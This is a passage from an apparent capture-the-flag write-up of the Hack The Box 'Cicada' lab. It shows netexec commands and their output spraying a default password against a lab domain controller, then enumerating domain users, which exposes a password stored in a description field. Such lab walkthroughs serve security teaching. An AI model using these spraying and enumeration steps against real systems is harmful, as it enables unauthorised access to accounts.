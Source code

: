 * try the obtained default PW on these users...

```bash
$nxc smb 10.10.11.35 -u users -p 'Cicada$M6Corpb*@Lp#nZp!8'

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

* Michael Wrightson is baddy, uses default creds...&#x20;

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

#### Lateral Movement

* lets enumerate other users for more info thanks to login of Michael

```bash
$nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.35     445    CICADA-DC        Administrator                 2024-08-26 20:08:03 0       Built-in account for administering the computer/domain 
SMB         10.10.11.35     445    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.35     445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 0       Key Distribution Center Service Account 
SMB         10.10.11.35     445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1        
SMB         10.10.11.35     445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1        
SMB         10.10.11.35     445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.10.11.35     445    CICADA-DC        david.orelious                2024-03-14 12:17:29 0       Just in case I forget my password is aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 0        

```
